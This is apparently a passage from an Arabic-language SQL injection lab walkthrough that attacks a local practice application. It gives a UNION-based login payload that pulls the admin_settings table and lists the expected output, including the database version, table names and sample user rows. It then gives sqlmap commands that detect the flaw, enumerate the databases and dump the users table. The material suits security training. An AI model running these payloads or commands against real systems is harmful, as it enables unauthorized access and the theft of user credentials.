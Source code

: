 **8. استخراج الجداول الأخرى:**
```json
{
  "username": "admin' UNION SELECT setting_name||'='||setting_value,NULL,NULL,NULL,NULL,NULL FROM admin_settings --",
  "password": "test"
}
```

##### 🏆 **النتائج المتوقعة من الحقن اليدوي:**

**إصدار قاعدة البيانات:**
```
PostgreSQL 15.4 on x86_64-pc-linux-gnu, compiled by gcc
```

**قواعد البيانات المكتشفة:**
```
postgres, sqli_lab, template0, template1
```

**الجداول المكتشفة:**
```
users, admin_settings, logs, user_sessions
```

**بيانات المستخدمين المستخرجة:**
```
1|admin|$2b$10$hash...|admin@lab.com|Admin|User|admin
2|john_doe|$2b$10$hash...|john@lab.com|John|Doe|user
3|jane_smith|$2b$10$hash...|jane@lab.com|Jane|Smith|user
```

#### الأوامر اليدوية لـ SQLMap:
```bash
# 1. اكتشاف الثغرة
sqlmap -u "http://localhost:3000/api/level1" \
  --data='{"username":"admin","password":"test"}' \
  --method=POST \
  --content-type="application/json" \
  --batch

# 2. استخراج قواعد البيانات
sqlmap -u "http://localhost:3000/api/level1" \
  --data='{"username":"admin","password":"test"}' \
  --method=POST \
  --content-type="application/json" \
  --dbs --batch

# 3. استخراج الجداول
sqlmap -u "http://localhost:3000/api/level1" \
  --data='{"username":"admin","password":"test"}' \
  --method=POST \
  --content-type="application/json" \
  -D sqli_lab --tables --batch

# 4. استخراج بيانات المستخدمين
sqlmap -u "http://localhost:3000/api/level1" \
  --data='{"username":"admin","password":"test"}' \
  --method=POST \
  --content-type="application/json" \
  -D sqli_lab -T users --dump --batch
```

---